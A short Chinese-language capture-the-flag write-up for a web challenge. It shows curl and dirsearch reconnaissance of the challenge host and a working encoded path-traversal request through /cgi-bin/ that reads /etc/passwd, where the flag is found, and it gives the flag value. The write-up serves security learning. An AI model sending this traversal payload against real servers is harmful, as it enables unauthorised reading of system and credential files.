 # INCD Challenge: Let's Go

在本次的CTF挑战中，我们面对的是一个需要通过Web技术来解决的问题。目标是获取隐藏在服务器上的Flag。

使用 `curl` 命令访问目标网站，以确认服务器的响应。

```bash
curl https://incd-challange-lets_go.chals.io
```
响应结果显示服务器正常工作，返回了 `"It works!"`。

使用 `dirsearch` 进行目录枚举
接下来，我们使用 `dirsearch` 工具对网站进行目录枚举，以发现潜在的隐藏文件或目录。

```bash
dirsearch -u https://incd-challange-lets_go.chals.io/
```
枚举结果显示了几个有趣的路径，特别是一个指向 `/etc/passwd` 的路径。

访问隐藏路径
我们尝试访问该路径，以查看它是否返回了有用的信息。

```bash
curl --path-as-is https://incd-challange-lets_go.chals.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
服务器返回了 `/etc/passwd` 文件的内容，其中包含了服务器上所有用户的列表。在列表的最后，我们发现了一个以 `Flag` 开头的特殊条目。

获取Flag
在 `/etc/passwd` 文件的输出中，我们找到了Flag：

```
Flag{U_F1nd_/\/\!}
```



